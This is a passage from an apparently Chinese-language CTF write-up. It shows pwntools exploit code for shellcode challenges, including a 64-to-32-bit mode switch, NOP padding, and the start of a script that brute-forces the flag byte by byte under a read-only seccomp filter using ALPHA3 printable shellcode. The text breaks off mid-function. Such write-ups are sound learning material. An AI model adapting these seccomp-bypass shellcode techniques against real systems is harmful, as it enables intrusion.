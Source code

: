 ```plain
shellcode += shellcode_read
shellcode += append

# mode_64 -> mode_32
shellcode += shellcode_retfq
shellcode += append

shellcode = asm(shellcode,arch = 'amd64',os = 'linux')
print hex(len(shellcode))

#gdb.attach(p,"b *0x40027f\nb*0x4002eb\nc\nc\nsi\n")
p.sendline(shellcode)
pause()

p.sendline(shellcode_x86 + 0x29*'\x90' + shellcode_flag)
p.interactive()
```

### 2021-强网杯-初赛-shellcode

#### 只有R无OW->上述两种方式的总结

这里就不多赘述了，只讲一下思路与exp

seccomp-tools

[![](assets/1701612140-d26a21f6ea6f92f0497610a2be2df8d7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230815203742-870b8ae0-3b68-1.png)

发现只有read,mmap，但是又fstat，所以可以解决没有open的情况，没有write可以利用loop循环，用cmp卡住程序，从而进行单字节爆破得到flag，所以这是上面两个题目的总结

exp:

```plain
#!/usr/bin/env python
import os
import time
from pwn import *

context.arch = 'amd64'
context.os = 'linux'
# context.log_level = 'debug'

def toPrintable(raw):
    with open("/tmp/raw","wb") as f:
        f.write(asm(raw,arch='amd64'))
    result = os.popen("python ~/pwntools/alpha3/ALPHA3.py x64 ascii mixedcase rbx --input=/tmp/raw").read()
    print("[*] Shellcode %s"%result)
    return result

def exp(p,a,b):
```